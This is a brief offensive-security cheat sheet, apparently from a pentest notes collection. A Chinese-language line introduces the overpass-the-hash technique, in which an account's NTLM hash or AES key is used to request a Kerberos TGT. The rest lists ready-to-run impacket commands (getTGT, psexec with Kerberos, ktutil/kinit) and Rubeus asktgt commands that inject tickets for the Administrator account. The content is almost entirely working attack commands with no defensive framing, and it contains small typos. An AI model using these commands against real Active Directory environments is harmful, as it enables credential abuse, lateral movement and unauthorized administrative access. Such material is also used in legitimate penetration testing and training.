 	在这种技术中，我们不是直接传递哈希值，而是使用帐户的 NTLM 哈希值来请求有效的 Kerberost 票证 (TGT)
### impacket
  	>python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
	>export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
	>python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass
	>./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com
	>ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
	>kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
	>klist
### Rubeus
  	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
	>.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt
	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe